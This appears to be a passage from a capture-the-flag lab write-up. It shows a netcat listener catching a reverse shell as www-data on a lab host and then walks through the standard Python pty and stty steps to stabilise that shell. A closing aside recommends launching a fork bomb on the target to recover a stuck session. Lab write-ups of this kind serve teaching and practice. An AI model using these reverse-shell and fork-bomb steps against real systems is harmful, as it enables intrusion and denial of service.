 On my other console, where netcat is listening, it got connection as `www-data` user:

```commandline
┌──(itchy㉿scratchy)-[~]                                                
└─$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.8.208.30] from (UNKNOWN) [10.10.218.64] 48130
Linux startup 4.4.0-190-generic #220-Ubuntu SMP Fri Aug 28 23:02:15 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 23:43:33 up  3:46,  0 users,  load average: 0.07, 0.02, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

We are in the system Houston!

### Stabilizing the shell

It's time to stabilize the remote connection. As for example, if we hit `CTRL + c`, our connection get broken. If we run some other scripts, trying to exit them the brutal way, will also kill our remote connection. And the bonus goodies, is that we want to be able to use `tab` completion, `history` features like an all that traditional shell.

To do so I used the python trick `python -c 'import pty;pty.spawn("/bin/bash")'`. Then have set the `TERM` variable to `xterm` with the `TERM=xterm` command. Then I have put this process in background with pressing `CTRL + z` (see that ^Z bellow) and I came back into my own shell. Then ran the command `stty raw -echo; fg` which foreground us back into our process. Finally, I pressed once the `Enter` key, to see back the prompt and then the `TAB` key on my keyboard to check that this been work now.

**IMPORTANT NOTE: This disabled echoing my own shell. So if something wrong happen like network disconnection or when I'm done with this all. Enter `reset` to reset the terminal.**

Here's how this looks like in a terminal:

```commandline
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@startup:/$ TERM=xterm
TERM=xterm
www-data@startup:/$ ^Z
[1]+  Stopped                 nc -lvnp 1234
┌──(itchy㉿scratchy)-[~/Downloads/webshells]
└─$ stty raw -echo; fg
nc -lvnp 1234

www-data@startup:/$ 
Display all 1302 possibilities? (y or n)
```

_**NOTE:** If something wrong happen into the try with above commands, it could be you mess up temporally your shell and end up in the need to kill it. Because it refuses to `echo` back, even after the `reset` command. Just saying you know, been there several times. I have no clue, it's supposed to work but I suspect something is going wrong with that `webshell` or `netcat` or even current `Kali` config. They want to keep the connection alive somehow. That's why I like to use `tmux`, the magic kill key is `<prefix> &`. So you know how to fix the worst :-D Or if I can speak openly, first stopping that `curl` command and then trowing a fork bomb `:(){ :|:& };:` into that remote shell, will freak out the target a bit (he will not die, trust me), and you will save your day after 3-5 minutes or of patience, the time the target get out of its panic situation. Then entering `reset` will fix the shell. I'm not joking on this one. Test and see by yourself. Contact me if you have a better fix! I don't like `socat`. That fork bomb is actually my goto get out safely without killing my shell. Peace and Love you all_

